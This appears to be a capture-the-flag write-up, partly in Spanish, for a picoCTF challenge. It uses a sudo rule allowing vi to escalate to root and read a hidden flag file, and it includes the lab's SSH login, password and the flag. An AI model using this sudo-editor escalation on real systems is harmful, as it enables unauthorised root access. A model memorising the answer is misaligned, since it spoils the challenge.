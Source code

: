 ## Descripción
Can you read files in the root file? The system admin has provisioned an account for you on the main server: `ssh -p 62923 picoplayer@saturn.picoctf.net` Password: `j4ks-9nxB-` Can you login and read the root file?
## Solución
primero accedemos a la conexion ssh luego usamos sudo -l para saber que comandos se pueden usar con sudo al ver que salen tres directorios probamos con el ultimo vi y damos con sudo 'vi' test para ejecutar el editor con privilegios luego.al ya tener privilegios de root usamos un ls -la mostramos los archivos ocultos y al ver uno llamado flag.txt con cat lo abrimos para ver su contenido y alli encontramos la llave

```
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$ /usr/bin/vi

root@challenge:~# ls
root@challenge:~# ls -la
total 12
drwx------ 1 root root   23 Aug  4  2023 .
drwxr-xr-x 1 root root   51 Sep 15 00:10 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
root@challenge:~# cat .flag.txt
picoCTF{uS1ng_v1m_3dit0r_021d10ab}

```
## Referencias
ls -la --> comando para ver archivos ocultos
sudo -l --> para ver que comandos podemos hacer con sudo
cat --> para abrir el contenido de un archivo